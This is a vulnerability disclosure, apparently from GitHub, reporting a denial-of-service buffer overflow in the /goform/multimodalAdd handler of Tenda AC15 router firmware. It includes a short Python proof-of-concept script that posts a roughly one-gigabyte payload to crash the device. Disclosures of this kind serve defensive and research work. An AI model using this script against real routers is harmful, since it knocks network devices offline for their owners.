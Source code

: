# Tenda A15 V15.13.07.13 has a buffer overflow vulnerability

# Vulnerable URL
http://192.168.159.128/goform/multimodalAdd

# Vulnerability Description

Tenda AC15 is a dual-band three-gigabit wireless router suitable for fiber-optic homes within 1000 megabits, supporting gigabit ports, intelligent frequency selection, parental control and other functions. 
Shenzhen Jixiang Tenda Technology Co., Ltd. AC15 has a binary vulnerability that can be exploited by attackers to cause a denial of service.

# Firmware Information

https://www.tendacn.com/download/detail-3187.html
![image](https://github.com/user-attachments/assets/00a3dce8-4bd3-4c6c-93ec-4caeeaedab06)


# Payload：
exp.py
```
import requests

url = "http://192.168.85.160/goform/multimodalAdd"
data = {
    "HTTP/1.1 200 OK\r\nContent-Length:%d\r\nContent-type: text/plain; charset=utf-8\r\nPrag ma: no-cache\r\nCache-Control: no-cache\r\n\r\n":b'A'*1000000000
}
res = requests.post(url=url,data=data)
print(res.content)
```

<img width="547" alt="image" src="https://github.com/user-attachments/assets/fa358890-c6e3-4140-a91b-d03f5edad2d7" />


When running the exp.py script, the memory is filled up and the device crashes.

<img width="640" alt="image" src="https://github.com/user-attachments/assets/18814639-0abd-40b8-8b0d-dcda60649a23" />

![image](https://github.com/user-attachments/assets/87a3abce-af4f-40d4-a652-02fc29d8d7ab)

